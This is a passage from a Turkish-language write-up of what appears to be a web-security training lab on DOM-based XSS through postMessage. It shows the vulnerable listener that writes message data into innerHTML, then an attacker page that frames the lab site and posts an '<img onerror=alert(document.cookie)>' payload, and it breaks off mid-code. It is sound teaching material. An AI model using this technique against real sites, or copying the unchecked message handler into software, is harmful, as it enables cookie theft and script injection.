 Sitenin arka planında neler olup bittiğini görebilmek için öncelikle sayfa kaynağını görüntüleyelim. Sayfa kaynağını görüntülediğimizde 52. satırda gelen verinin data’sının innerHTML ile ekrana verilmekte olduğunu görebiliriz.

```
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

Bu lab’ı çözerken de yukarıda gösterdiğimiz örnekler üzerinden ilerleyebiliriz. Oluşturacağımız html sayfasında değiştirmemiz gerken kısım target sitesinin adresidir. Burada lab ortamının adresini yazmalıyız.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        var target = document.getElementById('target');

        target.addEventListener('load', function(){
            //buradan iframe içerisine bir mesaj göndereceğiz
            target.contentWindow.postMessage("asdasd",'*');
            //postMessage frame'ler arası iletişimi sağlamaktaydı.
        });
        target.src=
        "https://0add005f042c0f178189085900c9006b.web-security-academy.net/"
    </script>
</html>
```

Oluşturduğumuz HTML sayfası sayesinde hedef web uygulamasını iframe ile açabildik.

![Untitled](0x09-770e9a14727f44d080ea40a453968369/Untitled-10.png)

Bu kısımdan sonra da lab’ın çözülmesi için yapmamız gereken ise print() fonksiyonunu çağırmak ya da document.cookie gibi bir çıktı elde etmek olacaktır. Buna yönelik bir XSS Payload’ı yazabiliriz.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        var target = document.getElementById('target');

        target.addEventListener('load', function(){
            //buradan iframe içerisine bir mesaj göndereceğiz
            target.contentWindow.postMessage(
                            "<img src=x onerror=alert(document.cookie)>",'*');
             //postMessage frame'ler arası iletişimi sağlamaktaydı.
```